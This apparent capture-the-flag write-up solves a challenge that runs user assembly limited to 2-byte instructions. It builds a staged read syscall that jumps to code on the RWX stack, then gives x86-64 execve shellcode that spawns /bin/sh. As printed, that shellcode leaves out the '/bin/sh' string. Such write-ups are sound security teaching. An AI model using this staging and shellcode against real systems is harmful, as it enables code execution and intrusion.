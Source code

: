 ## Challange
Get the flag by taking control of the shellcode, but each istruction could be of max 2 bytes.
## Solution
The binary uses capstone to execute an arbitrary assembly input but it should be of max 2 bytes. By using gdb and breaking before the input code is executed we can see the state of registers.
```
rax = 0
rsp = something on stack
```
Since `rsp` is pointing to the stack, which is `RWX`, we can simply program a `read` in this way:

```assembly
;         rax     rdi                 rsi         rdx    
;         0x00	unsigned int fd	    char *buf	size_t count       <-- read
push rax 
pop rdi ; fd = 0 stdin

push rax
pop rdx 
mov dl, 0xff ; count = 0xff

push rsp
pop rsi ; rsi points to stack

syscall

jmp rsi ; jmp to read code
```

This will allow us to inject arbitrary code (shellcode) and with `jmp` execute it. The shellcode is:
```assembly
jmp binsh
back:
xor rax, rax
mov al, 0x3b
pop rdi
xor rsi, rsi
xor rdx,rdx
syscall

binsh:
call back
nop
nop
```
